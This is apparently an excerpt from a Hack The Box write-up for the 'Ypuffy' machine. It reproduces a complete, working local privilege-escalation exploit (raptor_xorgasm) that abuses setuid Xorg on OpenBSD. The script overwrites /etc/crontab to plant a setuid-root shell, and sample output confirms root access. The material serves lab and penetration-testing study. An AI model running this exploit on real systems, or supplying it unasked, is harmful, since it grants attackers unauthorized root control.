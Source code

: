 ```
# https://gist.github.com/0x27/d8aae5de44ed385ff2a3d80196907850
#
# Usage:
# blobfish$ chmod +x raptor_xorgasm
# blobfish$ ./raptor_xorgasm
# [...]
# Be patient for a couple of minutes...
# [...]
# Don't forget to cleanup and run crontab -e to reload the crontab.
# -rw-r--r--  1 root  wheel  47327 Oct 27 14:48 /etc/crontab
# -rwsrwxrwx  1 root  wheel  7417 Oct 27 14:50 /usr/local/bin/pwned
# blobfish# id
# uid=0(root) gid=0(wheel) groups=1000(raptor), 0(wheel)
#
# Vulnerable platforms (setuid Xorg 1.19.0 - 1.20.2):
# OpenBSD 6.4 (Xorg 1.19.6) [tested]
# OpenBSD 6.3 (Xorg 1.19.6) [tested]
#

echo "raptor_xorgasm - xorg-x11-server LPE via OpenBSD's cron"
echo "Copyright (c) 2018 Marco Ivaldi <raptor@0xdeadbeef.info>"

# prepare the payload
cat << EOF > /tmp/xorgasm
cp /bin/sh /usr/local/bin/pwned # fallback in case gcc is not available
echo "main(){setuid(0);setgid(0);system(\"/bin/sh\");}" > /tmp/pwned.c
gcc /tmp/pwned.c -o /usr/local/bin/pwned # most dirs are mounted nosuid
chmod 4777 /usr/local/bin/pwned
EOF
chmod +x /tmp/xorgasm

# trigger the bug
cd /etc
Xorg -fp "* * * * * root /tmp/xorgasm" -logfile crontab :1 &
sleep 5
pkill Xorg

# run the setuid shell
echo
echo "Be patient for a couple of minutes..."
echo
sleep 120
echo
echo "Don't forget to cleanup and run crontab -e to reload the crontab."
ls -l /etc/crontab*
ls -l /usr/local/bin/pwned
/usr/local/bin/pwned
```

Somos root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ypuffy/Y_lin28.png)